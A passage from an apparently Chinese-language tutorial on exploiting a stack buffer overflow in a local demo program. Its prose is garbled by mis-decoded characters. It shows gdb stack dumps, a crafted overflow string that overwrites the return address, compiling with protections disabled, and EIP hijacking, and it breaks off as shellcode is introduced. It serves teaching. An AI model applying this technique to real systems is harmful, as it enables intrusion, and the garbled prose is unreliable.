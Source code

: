 <p>鍏堝～鍏�28涓�<code>A</code>杩涘幓锛屽垰濂藉彲浠ヨ鐩栧埌杩斿洖鍦板潃锛屽悓鏃舵敞鎰忕洰鏍囧湴鍧€鍐嶇紦鍐插尯鐨勪綅缃紝鐢变簬鎴戜滑杈撳叆鐨勫瓧绗︿覆闀垮害鍘熷洜锛屾鏃剁洰鏍囧湴鍧€鐩稿鍓嶉潰娴嬭瘯鏃剁殑鍦板潃瑕侀珮锛屼絾鏄浉瀵瑰湴鍧€鏄笉浼氬彉鐨�</p>
<pre><code>gdb-peda$ stack 10
0000| 0xbfffeef0 --&gt; 0xbfffef04 --&gt; 0xbfffefa4 --&gt; 0xb24f3e8f 
0004| 0xbfffeef4 --&gt; 0xbfffef30 (&#39;A&#39; &lt;repeats 28 times&gt;)
0008| 0xbfffeef8 --&gt; 0xbfffef10 --&gt; 0xffffffff 
0012| 0xbfffeefc --&gt; 0x8048254 (&quot;__libc_start_main&quot;)
0016| 0xbfffef00 --&gt; 0x0 
0020| 0xbfffef04 --&gt; 0xbfffefa4 --&gt; 0xb24f3e8f 
0024| 0xbfffef08 --&gt; 0xb7fbb000 --&gt; 0x1b1db0 
0028| 0xbfffef0c --&gt; 0xfd57 
0032| 0xbfffef10 --&gt; 0xffffffff 
0036| 0xbfffef14 --&gt; 0x2f (&#39;/&#39;)
`
</code></pre><p>鍙互浣跨敤Python鏉ュ畬鎴愬皬绔簭鐨勮浆鎹�</p>
<pre><code>&gt;&gt;&gt; print repr(struct.pack(&quot;&lt;I&quot;, 0xbfffef04))
&#39;\x04\xef\xff\xbf&#39;
</code></pre><p>淇敼杈撳叆鐨勫瓧绗︿覆</p>
<pre><code>char temp[32] = &quot;AAAAAAAAAAAAAAAAAAAAAAAA\x04\xef\xff\xbf&quot;;
</code></pre><p>缂栬瘧杩愯</p>
<pre><code>wnagzihxain@toT0C:~$ gcc -fno-stack-protector -fno-builtin -zexecstack -o Demo Demo.c
wnagzihxain@toT0C:~$ ./Demo
AAAAAAAAAAAAAAAAAAAAAAAA锟斤拷锟�
娈甸敊璇� (鏍稿績宸茶浆鍌�)
</code></pre><p>鎵ц瀹屾嫹璐濇寚浠わ紝姝ゆ椂鏍堝竷灞€濡備笅锛岃繑鍥炲湴鍧€宸茶鎴戜滑瑕嗙洊</p>
<pre><code>gdb-peda$ stack 20
0000| 0xbfffeef0 --&gt; 0xbfffef04 (&#39;A&#39; &lt;repeats 24 times&gt;, &quot;\004\357\377\277&quot;)
0004| 0xbfffeef4 --&gt; 0xbfffef30 (&#39;A&#39; &lt;repeats 24 times&gt;, &quot;\004\357\377\277&quot;)
0008| 0xbfffeef8 --&gt; 0xbfffef10 (&#39;A&#39; &lt;repeats 12 times&gt;, &quot;\004\357\377\277&quot;)
0012| 0xbfffeefc --&gt; 0x8048254 (&quot;__libc_start_main&quot;)
0016| 0xbfffef00 --&gt; 0x0 
0020| 0xbfffef04 (&#39;A&#39; &lt;repeats 24 times&gt;, &quot;\004\357\377\277&quot;)
0024| 0xbfffef08 (&#39;A&#39; &lt;repeats 20 times&gt;, &quot;\004\357\377\277&quot;)
0028| 0xbfffef0c (&#39;A&#39; &lt;repeats 16 times&gt;, &quot;\004\357\377\277&quot;)
0032| 0xbfffef10 (&#39;A&#39; &lt;repeats 12 times&gt;, &quot;\004\357\377\277&quot;)
0036| 0xbfffef14 (&quot;AAAAAAAA\004\357\377\277&quot;)
0040| 0xbfffef18 (&quot;AAAA\004\357\377\277&quot;)
0044| 0xbfffef1c --&gt; 0xbfffef04 (&#39;A&#39; &lt;repeats 24 times&gt;, &quot;\004\357\377\277&quot;)
0048| 0xbfffef20 --&gt; 0xbfffef00 --&gt; 0x0 
0052| 0xbfffef24 --&gt; 0xb7fbb000 --&gt; 0x1b1db0 
0056| 0xbfffef28 --&gt; 0xb7fb9244 --&gt; 0xb7e21020 (&lt;_IO_check_libio&gt;:    call   0xb7f28999 &lt;__x86.get_pc_thunk.ax&gt;)
0060| 0xbfffef2c --&gt; 0xb7e210ec (&lt;init_cacheinfo+92&gt;:    test   eax,eax)
0064| 0xbfffef30 (&#39;A&#39; &lt;repeats 24 times&gt;, &quot;\004\357\377\277&quot;)
0068| 0xbfffef34 (&#39;A&#39; &lt;repeats 20 times&gt;, &quot;\004\357\377\277&quot;)
0072| 0xbfffef38 (&#39;A&#39; &lt;repeats 16 times&gt;, &quot;\004\357\377\277&quot;)
0076| 0xbfffef3c (&#39;A&#39; &lt;repeats 12 times&gt;, &quot;\004\357\377\277&quot;)
</code></pre><p>鍗曟璧板畬鍚庨潰鐨勬寚浠わ紝姝ゆ椂EBP宸茶鎴戜滑瑕嗙洊鎴�<code>0x41414141</code>锛岃繑鍥炲湴鍧€涔熻瑕嗙洊鎴愪簡瀛楃涓查鍦板潃</p>
<p><img src="Image/14.png" alt=""></p>
<p>鎴戜滑鍗曟鎵ц锛孍IP琚垜浠姭鎸佸埌瀛楃涓茬殑棣栧湴鍧€</p>
<p><img src="Image/15.png" alt=""></p>
<p>褰撶劧杩欓噷涓€鍫�<code>inc ecx</code>鏄垜浠敤浜庢祴璇曠殑鏃犳剰涔夋寚浠わ紝濡傛灉鎴戜滑杈撳叆鐨勫瓧绗︿覆鏄湁鎰忎箟鐨勬寚浠ゅ憿锛�</p>
<p>鍥犱负Shellcode闀垮害鍘熷洜锛屾垜浠妸缂撳啿鍖哄紑澶т竴鐐癸紝涔熸洿绗﹀悎鐪熷疄鐜</p>
<pre><code>#include &lt;stdio.h&gt;
#include &lt;string.h&gt;

